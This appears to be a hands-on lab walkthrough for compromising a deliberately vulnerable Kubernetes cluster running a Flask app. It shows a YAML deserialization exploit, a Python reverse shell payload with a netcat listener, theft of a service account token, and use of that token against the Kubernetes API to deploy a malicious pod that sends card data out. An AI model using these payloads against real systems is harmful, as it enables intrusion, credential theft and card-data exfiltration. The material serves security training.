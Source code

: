 ## Attacking a Kubernetes Cluster

### Start the Vulnerable K8s Cluster

1. Run `./setup_insecure_kube.sh` to start the vulnerable K8s Cluster. Wait for the command to be done
2. Run `./setup_flask_stack.sh` to start the flask stack to be run on the cluster. Wait for the command to complete

### Verifying that the K8s stack is running

1. Run `kubectl get pods` should give you something like this:

    ```
        NAME            READY     STATUS    RESTARTS   AGE
        ngflask-redis   3/3       Running   0          1m
    ```

Make sure the `Status` is `Running`

2. Run `kubectl get svc` to check for running services. You should see:

    ```
    NAME                    TYPE        CLUSTER-IP       EXTERNAL-IP   PORT(S)        AGE
    kubernetes              ClusterIP   10.96.0.1        <none>        443/TCP        15m
    ngflask-redis-service   NodePort    10.105.196.230   <none>        80:30070/TCP   1m

    ```

    Your `ngflask-redis-service` Cluster IP and Ports may vary based on your machine

3. Finally run `minikube service ngflask-redis-service --url` to get a full URL of the final service. Open your browser and paste this value.

It will be something like this `http://<IP>:<someport>`

Once you open in your browser, you must see this response: `Please POST JSON requests to this URL`. This means the service running correctly.

### Generating Artifacts

1. In a separate terminal or browser make an HTTP GET request to `http://<IP>:<someport>/generate`
It should come back with this response:
    ```
    {
        "success": "10 transactions generated successfully"
    }
    ```

Now, if you go to the `/status` url, you should see the latest transaction that has been logged by our app.

```
Latest Transaction Status
amount: 482
name: Samuel Chandler
card: ********8854
expiration: 425
Status: Success
```

#### Our objective is to compromise this cluster. Run our cryptominer and steal card numbers 😉

### Exploiting a Deserialization Flaw

* Our Flask app has a `yaml.load()` deserialization flaw. Using this flaw, one can potentially gain access to execute code on the backend-server. We will be using this vulnerability to exploit our app.
* Our app allows us to upload yaml files to capture expense information. We will load a malicious yaml file that should execute code for us.
* Run: `cd payloads`
* Run: (to upload the yaml file and identify the flaw)

```
http --form POST http://<IP>:<PORT>/upload file@test_payment.yml
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Sat, 15 Sep 2018 07:34:52 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```
* Now go to the `/status` url, and you should see this (dump of all the environment variables)

### Reverse TCP Shell on our K8s Cluster

* you should be in the payloads directory. Open `reverse_shell.yml` with `atom reverse_shell.yml`
* change the external IP address to your VM's IP address with ifconfig. Also make sure that port 1337 is available on your VM
    `["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.2.3\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]`
* open a separate terminal and start your netcat listener by running `nc -l 1337`
* Now run:

```
http --form POST http://<IP>:<PORT>/upload file@reverse_shell.yml
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Sat, 15 Sep 2018 07:43:59 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

You should have gotten a netcat reverse TCP shell!
```
nc -l 1337
/bin/sh: can't access tty; job control turned off
/app #

```
Now you can interact with your target app and backend K8s cluster

**NOTE: Do NOT use the clear or Command/Ctrl+C key. you will lose access to the shell**

### Pivoting to K8s cluster

* Navigate to `cd /run/secrets/kubernetes.io/serviceaccount` and run `ls -al`
* open and copy the token with `cat token` and copy to clipboard
* Now run: `export TOKEN=(paste token value here)`
* We are now going to masquerade with the cluster-admin's token.
* Let's start interacting with K8s API

    `curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`
    
    `curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`

You should see a JSON Dump of all the pods and services running in the cluster at this time

Note `clusterIP` of the `redis-service` Service.

Open a new tab in terminal and launch a web-server by running `./tornado_server.py`

Change the value of `MASTERHOST` with the value of `clusterIP`.

Change the value of `LISTENER_IP` with the VM IP that can be fetched by running `ifconfig`

Change the value of `LISTENER_PORT` to the port web-server is running on(`9090`)

```
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              {
                "name": "MASTERHOST",
                "value": "10.109.162.114"
              },
              {
                "name": "MASTERPORT",
                "value": "6379"
              },
              {
                "name": "LISTENER_IP",
                "value": "192.168.2.116"
              },
              {
                "name": "LISTENER_PORT",
                "value": "9090"
              }
            ]
        }]
    }
}
EOF
```

`curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XPOST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d@mal-redis.json --insecure`

`curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`
